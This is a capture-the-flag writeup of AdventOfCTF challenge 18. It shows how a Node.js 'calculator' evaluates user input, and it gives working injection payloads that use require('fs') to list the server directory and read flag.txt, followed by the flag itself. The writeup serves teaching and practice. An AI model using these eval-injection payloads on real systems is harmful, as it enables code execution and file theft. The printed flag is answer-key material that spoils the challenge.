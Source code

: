 +++
author = "Maik de Kruif"
title = "Challenge 18"
subtitle = "Challenge 18 - AdventOfCTF"
date = 2021-01-06T23:04:52+01:00
description = "A writeup for challenge 18 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/be40bcd25e7487440a64b13cd32049b2.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1800

## Description

We created a calculator for Santa to figure out how many days until Christmas remain. It is not finished yet, it will only return what you give it. Sort of. The flag is in flag.txt.

Visit <https://18.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

## Finding the vulnerability

If we capture the request with a proxy like Burp, we can see it sends a `POST` request with some JSON data. It looks like this:

```json
{
  "calc": "3+4"
}
```

To find out how the calculator works internally we can try to send some data it doesn't expect to try to break it. An example would be sending an empty post request.

If we try that we get the following error back:

```text
TypeError: Cannot read property 'toString' of undefined
    at /opt/app/server.js:14:13
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
    at done (/opt/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/opt/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:203:15)
    at endReadableNT (_stream_readable.js:1145:12)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

This hints at a NodeJS Express server, but it does not give us much information about the calculation besides a `toString` which would be unnecessary if the output would always be a number. This could hint at an `eval` vulnerability.

A NodeJS Express server often has a `res` variable to which the request result is written. Let's try to get it by entering it in de input field.

```json
{
  "calc": "res"
}
```

The result is `[object Object]` which means the input is evaluated.

## Exploit

Now we know the input is evaluated, we can try to read the flag. To find the file, let's try to list the directory contents.

In NodeJS we can do this by using the `fs` module and using the `readdirSync()` function. The resulting code would be `require('fs').readdirSync('.')`.

The resulting request:

```json
{
  "calc": "require('fs').readdirSync('.')"
}
```

This gives us the following result:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Now that we know the location of the flag (`flag.txt`), we can use the `readFileSync()` function to read the file:

```json
{
  "calc": "require('fs').readFileSync('flag.txt')"
}
```

## Solution

We got the flag! It is `NOVI{N3v3r_us3_eval}`.
